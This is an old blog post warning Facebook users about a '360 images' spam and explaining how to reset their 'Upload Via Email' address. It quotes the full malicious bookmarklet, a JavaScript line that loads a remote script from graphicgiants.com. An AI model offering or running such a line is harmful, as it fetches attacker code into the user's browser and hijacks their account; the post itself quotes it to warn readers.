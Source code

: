 ```yaml
---
title: "How To Get Rid of “Facebook 360 Images” Spam"
date: "2010-12-04"
categories: 
  - "how-to"
  - "social-media"
---
```


Another one sleazy spam is now underway on Facebook and it involves showing people **Face-book images rotate 360\***. Similar one is pretending to show **Really cool Facebook revolving images.** **[cosmoGeek](http://www.cosmogeek.info/)** instantly alerted its members about these kind of spams in past few days via Facebook fan [page](http://www.facebook.com/cosmoGeek) and [Twitter](http://twitter.com/k_avinash).

[![image](images/Capture%5B11%5D.jpg "image")![Capture](http://lh6.ggpht.com/_40bmzDo_mBs/TPqa9FPz4aI/AAAAAAAABlE/XLdIXrpYeb4/Capture_thumb%5B9%5D.jpg?imgmax=800 "Capture")](http://lh6.ggpht.com/_40bmzDo_mBs/TPqa4xVQXSI/AAAAAAAABk4/K6_VQhseyl4/s1600-h/image%5B38%5D.png)

All these users unfortunately and unknowingly copy pasted the following script into their browser address bars hoping to see revolving images.

> JavaScript:(a = (b =  document).createElement(&amp;quot;script&amp;quot;)).src =   &amp;quot;//graphicgiants.com/majic.js?show&amp;quot;, b.body.appendChild(a); void(0)

Once you do this, the spam makes wall posts and updates users’ status’. To do this, it is using the newly launched Facebook feature called “**Upload Via E-mail**”. It is a unique personal Email address given to every user which allows one to post status updates or send photos and videos straight to one’s profile. The spam has recorded this Email address of yours and is using it to update your status. Thankfully, Facebook lets you change this email ID. This is how you can do it.

1. From Facebook mobile [link](http://www.facebook.com/mobile/), find “_More Facebook Mobile Products_” written somewhere down. Find “_Upload Via Email_“. Click “_Find out more_“
2. In the next window, click “_refresh your upload email”_
3. Now press reset. Don’t worry, you now got a new personal upload email address. The spam won’t work anymore.

JavaScript can be very malicious and from now on, please just don’t end up in entering random scripts in your browser! Share this post if you found it useful and help others in preventing spam.
